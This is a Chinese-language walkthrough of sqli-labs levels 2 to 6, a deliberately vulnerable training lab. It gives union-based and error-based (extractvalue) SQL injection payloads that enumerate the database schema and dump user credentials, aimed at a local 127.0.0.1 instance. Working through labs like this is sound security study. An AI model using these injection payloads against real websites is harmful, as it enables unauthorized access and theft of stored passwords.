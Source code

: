## Less-2(数字型union)

这关为数字型注入，和Less-1一样的步骤，只不过不需要用单引号来闭合

```MYSQL
?id=0 union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-3(字符型union)

这关为字符型注入，只不过多了一个单括号

```mysql
http://127.0.0.1/sql/Less-3?id=0') union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-4(字符型union)

这关为字符型注入，形式变为双引号加单括号

```mysql
http://127.0.0.1/sql/Less-4?id=0") union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-5(报错注入)

```mysql
首先确定为字符型注入，然后使用group by确定列数，再使用union select 1,database(),3--+发现没有回显，于是可以使用报错注入
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select database()))),3--+ 
爆数据库名
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3--+ 
爆表名
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3--+
爆users表列名 
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))),3--+ 
爆信息，但是由于报错注入只能返回32个字符，所以要使用substring
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30) from users))),3--+ 
substring使其从第25个字符开始往后再显示30个字符，再拼接起来就得到了所有用户名和密码
```

## Less-6(报错注入)

```mysql
和Less-5几乎一模一样，只需要把单引号改为双引号就行
http://127.0.0.1/sql/Less-6?id=0" union select 1,extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))),3--+ 
```
